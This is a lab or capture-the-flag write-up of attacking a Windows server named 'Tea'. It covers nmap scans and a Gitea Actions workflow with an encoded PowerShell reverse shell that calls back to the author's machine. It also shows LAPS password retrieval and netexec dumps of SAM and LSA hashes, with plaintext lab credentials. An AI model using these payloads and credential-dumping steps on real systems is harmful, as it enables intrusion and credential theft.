







As usual I always start by checking presence of common UDP services:

```bash
└─$ nmap -F -sU 10.13.38.54
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-16 15:18 +0100
Nmap scan report for 10.13.38.54
Host is up (0.023s latency).
All 100 scanned ports on 10.13.38.54 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 4.22 seconds

```

Nothing interesting so far, but what about the TCP counterparts instead? From here I can understand that this the Application server:

```bash
ORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 127
3000/tcp  open  http          syn-ack ttl 127 Golang net/http server
|_http-title: Gitea: Git with a cup of tea
| http-methods: 
|_  Supported Methods: HEAD GET
|_http-favicon: Unknown favicon MD5: F6E1A9128148EEAD9EFF823C540EF471
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=dcb657f99628601b; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=okrz2RJJBIGiJfmBBZ5pWCD1Gd06MTc3MzY3MDk4NjQ3OTM5NDUwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 16 Mar 2026 14:23:06 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL3Nydi50ZWEudmw6MzAwMC8iLCJpY29ucyI6W3sic3JjIjoiaHR0cDovL3Nydi50ZWEudmw6MzAwMC9hc3NldHMvaW1nL2xvZ28ucG5nIiwidHlwZSI6ImltYWdlL3BuZyIsInNpemVzIjo
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=8b319229d91d25c1; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=Kai9uUeWbuYhb1kiSWkD8ZiFVY06MTc3MzY3MDk4NzAwMzkyODAwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 16 Mar 2026 14:23:07 GMT
|_    Content-Length: 0
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=SRV.tea.vl
| Issuer: commonName=SRV.tea.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-15T03:38:41
| Not valid after:  2026-09-14T03:38:41
| MD5:     b95c 4e00 254c b657 a827 7d1f f4ac 9633
| SHA-1:   2af7 dd4e fea4 c4fe 2433 33e4 f938 3637 7458 59ba
| SHA-256: 6b01 b359 4140 53a9 29a7 7f48 3be5 420e e956 97ae 928e ab2b 5cf4 c299 3d7f 7940
| -----BEGIN CERTIFICATE-----
| MIIC2DCCAcCgAwIBAgIQZLangacnCapHU8NdwmrfyTANBgkqhkiG9w0BAQsFADAV
| MRMwEQYDVQQDEwpTUlYudGVhLnZsMB4XDTI2MDMxNTAzMzg0MVoXDTI2MDkxNDAz
| Mzg0MVowFTETMBEGA1UEAxMKU1JWLnRlYS52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAMTQ9zqfxT6JJUScqYxoWmdoLswCvQbCkie395QkpmO602n7
| F04YU2hdEaHhO4NS4rLc9peD4VbwpyjdAMHSh9n0qmudzo074yreobYePK5U2wIf
| 6wqM+q7WHUMonSKHUjZszuWDGepFCSpdiZDHTdyDBDCKMMI63Per9CyJYvo2yjSD
| GotcH0nWwz8TVW8GyAvd48R2OLMuTXnatl9BTFdpfVc5DhHTtkQoACLAZETQoZ54
| 3FVjbHC83UCFanLc80N07sKY8pFyXPCFFDC4zgmtruC2JGeuu/7DcmbcQwpfqSkt
| YDwlTZsN+bgo+zthqkb/1dU28Zh3P3y8yKyUTkUCAwEAAaMkMCIwEwYDVR0lBAww
| CgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBCwUAA4IBAQBNHJ1+
| +awGYiNvnyWlz39UHOLqpXPgqnEgUneqytmBJFvEdj8Wxv6OfgDk//WpGWt6MSU3
| k3KGNSceCSeERY00MpzCfnjy8tG62dOrAxskC2oyt3HJTAEFN59KCEI4BVukVIE9
| 6g8gx1omxIifPdMup6cQ7OJuop/1TMrgozIF5QcBhneibsS5wRb9990LxmYJRWAf
| QfSa4QDgcK+xyk29NriU27hxwedJrLBSfTFI0vXRlQnDRXDLHCU08/uc14gWqRuh
| 9Aeo3ZgJ+JY2dovDYvSk/CYZjjJKWlNROjz1latEHNy/9wWXcMNVmzeof7+vJOWw
| AaR0OTHBdXYn4113
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-16T14:24:39+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TEA
|   NetBIOS_Domain_Name: TEA
|   NetBIOS_Computer_Name: SRV
|   DNS_Domain_Name: tea.vl
|   DNS_Computer_Name: SRV.tea.vl
|   DNS_Tree_Name: tea.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-16T14:23:59+00:00
8530/tcp  open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
8531/tcp  open  unknown       syn-ack ttl 127
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.98%I=7%D=3/16%Time=69B81249%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,1000,"HTTP/1\.0\x20200\x20OK\r\nCache-Control:
SF:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nConte
SF:nt-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_gitea=
SF:dcb657f99628601b;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cookie
SF::\x20_csrf=okrz2RJJBIGiJfmBBZ5pWCD1Gd06MTc3MzY3MDk4NjQ3OTM5NDUwMA;\x20P
SF:ath=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Option
SF:s:\x20SAMEORIGIN\r\nDate:\x20Mon,\x2016\x20Mar\x202026\x2014:23:06\x20G
SF:MT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"theme-
SF:auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=device
SF:-width,\x20initial-scale=1\">\n\t<title>Gitea:\x20Git\x20with\x20a\x20c
SF:up\x20of\x20tea</title>\n\t<link\x20rel=\"manifest\"\x20href=\"data:app
SF:lication/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYS
SF:IsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfd
SF:XJsIjoiaHR0cDovL3Nydi50ZWEudmw6MzAwMC8iLCJpY29ucyI6W3sic3JjIjoiaHR0cDov
SF:L3Nydi50ZWEudmw6MzAwMC9hc3NldHMvaW1nL2xvZ28ucG5nIiwidHlwZSI6ImltYWdlL3B
SF:uZyIsInNpemVzIjo")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(HTTPOptions,1A4,"HTTP/1\.0\x20405\x20Metho
SF:d\x20Not\x20Allowed\r\nAllow:\x20HEAD\r\nAllow:\x20HEAD\r\nAllow:\x20GE
SF:T\r\nCache-Control:\x20max-age=0,\x20private,\x20must-revalidate,\x20no
SF:-transform\r\nSet-Cookie:\x20i_like_gitea=8b319229d91d25c1;\x20Path=/;\
SF:x20HttpOnly;\x20SameSite=Lax\r\nSet-Cookie:\x20_csrf=Kai9uUeWbuYhb1kiSW
SF:kD8ZiFVY06MTc3MzY3MDk4NzAwMzkyODAwMA;\x20Path=/;\x20Max-Age=86400;\x20H
SF:ttpOnly;\x20SameSite=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20
SF:Mon,\x2016\x20Mar\x202026\x2014:23:07\x20GMT\r\nContent-Length:\x200\r\
SF:n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent
SF:-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n4
SF:00\x20Bad\x20Request");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/16%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=69B812A6%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10A%TI=I%II=I%SS=S%TS=A)
SEQ(SP=105%GCD=1%ISR=106%TI=I%II=I%SS=S%TS=A)
OPS(O1=M552NW8ST11%O2=M552NW8ST11%O3=M552NW8NNT11%O4=M552NW8ST11%O5=M552NW8ST11%O6=M552ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M552NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.450 days (since Mon Mar 16 04:37:01 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 54518/tcp): CLEAN (Timeout)
|   Check 2 (port 13518/tcp): CLEAN (Timeout)
|   Check 3 (port 47088/udp): CLEAN (Timeout)
|   Check 4 (port 24618/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-03-16T14:24:02
|_  start_date: N/A

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   27.65 ms 10.10.14.1
2   27.59 ms 10.13.38.54


```

# Gittea

Now I alredy tried to check for presence fron the HTTP server but that was only the defaulf IIS placeholder page so now I will move on with that custom page.



Now here, except the Administrative user I don't see any custom repository so let's add a dummy user and check what can i see from the inside.



Now the only thing I can see out of ordinary is the presence of a runner on the server?  


So here I added a dummy repository and activated the actions on top of it:  


next i asked AI to provide me how to the repository should look like and here the important is that yaml file under the **gittea** hidden folder:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Tea/Shell]
└─$ tree -a
.
├── .git
│   ├── config
│   ├── description
│   ├── HEAD
│   ├── hooks
│   │   ├── applypatch-msg.sample
│   │   ├── commit-msg.sample
│   │   ├── fsmonitor-watchman.sample
│   │   ├── post-update.sample
│   │   ├── pre-applypatch.sample
│   │   ├── pre-commit.sample
│   │   ├── pre-merge-commit.sample
│   │   ├── prepare-commit-msg.sample
│   │   ├── pre-push.sample
│   │   ├── pre-rebase.sample
│   │   ├── pre-receive.sample
│   │   ├── push-to-checkout.sample
│   │   ├── sendemail-validate.sample
│   │   └── update.sample
│   ├── info
│   │   └── exclude
│   ├── objects
│   │   ├── info
│   │   └── pack
│   └── refs
│       ├── heads
│       └── tags
├── .gitea
│   └── workflows
│       └── pwn.yaml
└── README.md

```

The file with the revshell looks like the following:

```bash
└─$ cat .gitea/workflows/pwn.yaml 
name: Command Execution
on: [push] # This triggers the script every time you push code

jobs:
  execute-command:
    runs-on: windows-latest # Or the specific label of the runner
    steps:
      - name: Run my command
        run: |
          # Replace the line below with your desired command
          powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAwADUAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA


```

Now upon a new dummy file push I can see a runner:  


And I have a shell!



# Working my Way up

Now I need to understand what can this tomas wallace do?

```bash
 C:\Users\thomas.wallace> cd Desktop
PS C:\Users\thomas.wallace\Desktop> cat flag.txt
TEA{f09ed9eb6c1c2ee4db30c0a27aeb0488}
PS C:\Users\thomas.wallace\Desktop> 

```

But I have already my first flag:

```bash
PS C:\Users\thomas.wallace> cd Desktop
PS C:\Users\thomas.wallace\Desktop> cat flag.txt
TEA{f09ed9eb6c1c2ee4db30c0a27aeb0488}
PS C:\Users\thomas.wallace\Desktop> 

```

Now in the meantime I uploaded SharpHound and performed a quick scan:

```bash
PS C:\Temp> ./SharpHound.exe -d tea.vl -c All
2026-03-16T08:07:47.8013186-07:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2026-03-16T08:07:47.9580624-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices, LdapServices, WebClientService, SmbInfo, NTLMRegistry
2026-03-16T08:07:47.9893175-07:00|INFORMATION|Initializing SharpHound at 8:07 AM on 3/16/2026
2026-03-16T08:07:48.3194768-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices, LdapServices, WebClientService, SmbInfo, NTLMRegistry
2026-03-16T08:07:48.4137779-07:00|INFORMATION|Beginning LDAP search for tea.vl
2026-03-16T08:07:48.5074275-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for TEA.VL
2026-03-16T08:07:48.5074275-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for TEA.VL
2026-03-16T08:07:48.5391493-07:00|INFORMATION|Beginning LDAP search for tea.vl Configuration NC
2026-03-16T08:07:48.5547968-07:00|INFORMATION|Producer has finished, closing LDAP channel
2026-03-16T08:07:48.5704191-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2026-03-16T08:07:48.5704191-07:00|INFORMATION|[CommonLib ACLProc]Found GUID for ACL Right ms-laps-password: b4250d66-6ea4-4660-a902-826237a33a9c in domain TEA.VL
2026-03-16T08:07:48.5704191-07:00|INFORMATION|[CommonLib ACLProc]Found GUID for ACL Right ms-laps-encryptedpassword: 7d6f88b2-64aa-4548-9b9c-0b3d375c3271 in domain TEA.VL
2026-03-16T08:07:48.5860456-07:00|INFORMATION|[CommonLib ACLProc]Found GUID for ACL Right ms-laps-password: b4250d66-6ea4-4660-a902-826237a33a9c in domain TEA.VL
2026-03-16T08:07:48.5860456-07:00|INFORMATION|[CommonLib ACLProc]Found GUID for ACL Right ms-laps-encryptedpassword: 7d6f88b2-64aa-4548-9b9c-0b3d375c3271 in domain TEA.VL
2026-03-16T08:07:48.7428174-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for TEA.VL
2026-03-16T08:07:48.7465413-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for TEA.VL
2026-03-16T08:07:48.8210925-07:00|INFORMATION|[CommonLib ACLProc]Found GUID for ACL Right ms-laps-password: b4250d66-6ea4-4660-a902-826237a33a9c in domain TEA.VL
2026-03-16T08:07:48.8210925-07:00|INFORMATION|[CommonLib ACLProc]Found GUID for ACL Right ms-laps-encryptedpassword: 7d6f88b2-64aa-4548-9b9c-0b3d375c3271 in domain TEA.VL
2026-03-16T08:07:48.8210925-07:00|INFORMATION|[CommonLib ACLProc]Found GUID for ACL Right ms-laps-password: b4250d66-6ea4-4660-a902-826237a33a9c in domain TEA.VL
2026-03-16T08:07:48.8210925-07:00|INFORMATION|[CommonLib ACLProc]Found GUID for ACL Right ms-laps-encryptedpassword: 7d6f88b2-64aa-4548-9b9c-0b3d375c3271 in domain TEA.VL
2026-03-16T08:07:49.9651590-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2026-03-16T08:07:49.9964057-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2026-03-16T08:07:50.0907269-07:00|INFORMATION|Status: 309 objects finished (+309 309)/s -- Using 40 MB RAM
2026-03-16T08:07:50.0907269-07:00|INFORMATION|Enumeration finished in 00:00:01.6887718
2026-03-16T08:07:50.1536435-07:00|INFORMATION|Saving cache with stats: 16 ID to type mappings.
 1 name to SID mappings.
 2 machine sid mappings.
 4 sid to domain mappings.
 0 global catalog mappings.
2026-03-16T08:07:50.1853946-07:00|INFORMATION|SharpHound Enumeration Completed at 8:07 AM on 3/16/2026! Happy Graphing!
PS C:\Temp> 
```

Now immediately I see that Thomas can read laps?

But here after some googling I was able to obtain the passwrod by abusing the native cappabilities:

```bash
PS C:\Temp> Get-LapsADPassword -Identity srv -asplaintext


ComputerName        : SRV
DistinguishedName   : CN=SRV,OU=Servers,DC=tea,DC=vl
Account             : Administrator
Password            : lhG)tUpqv$l5-&
PasswordUpdateTime  : 3/15/2026 8:47:53 PM
ExpirationTimestamp : 4/14/2026 8:47:53 PM
Source              : EncryptedPassword
DecryptionStatus    : Success
AuthorizedDecryptor : TEA\Server Administration


```

And now I was able to dump everyhting so far:

```bash
└─$ netexec smb SRV.tea.vl -u Administrator -p 'lhG)tUpqv$l5-&' --local-auth --sam --lsa --dpapi
SMB         10.13.38.54     445    SRV              [*] Windows Server 2022 Build 20348 x64 (name:SRV) (domain:SRV) (signing:False) (SMBv1:None)
SMB         10.13.38.54     445    SRV              [+] SRV\Administrator:lhG)tUpqv$l5-& (Pwn3d!)
SMB         10.13.38.54     445    SRV              [*] Dumping SAM hashes
SMB         10.13.38.54     445    SRV              Administrator:500:aad3b435b51404eeaad3b435b51404ee:3a0d8553978833fc796fdf80e0b8648e:::
SMB         10.13.38.54     445    SRV              Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.13.38.54     445    SRV              DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.13.38.54     445    SRV              WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:aa9da69124ee0c27bb49bbde6d65527d:::
SMB         10.13.38.54     445    SRV              admin:1002:aad3b435b51404eeaad3b435b51404ee:04cc1bae2210805d674a1e08639b56fc:::
SMB         10.13.38.54     445    SRV              [+] Added 5 SAM hashes to the database
SMB         10.13.38.54     445    SRV              [+] Dumping LSA secrets
SMB         10.13.38.54     445    SRV              TEA.VL/thomas.wallace:$DCC2$10240#thomas.wallace#ef3a74923d402ccae4ab23cf01c7a753: (2026-03-16 03:40:42)
SMB         10.13.38.54     445    SRV              TEA\SRV$:aes256-cts-hmac-sha1-96:820005ab25cb3109869bbcafd2705c87b14f2576f44abd4fefff77c846bc4080
SMB         10.13.38.54     445    SRV              TEA\SRV$:aes128-cts-hmac-sha1-96:edc0ccac88ec439bbe69b90e661cfa62
SMB         10.13.38.54     445    SRV              TEA\SRV$:des-cbc-md5:94323ea44334f743
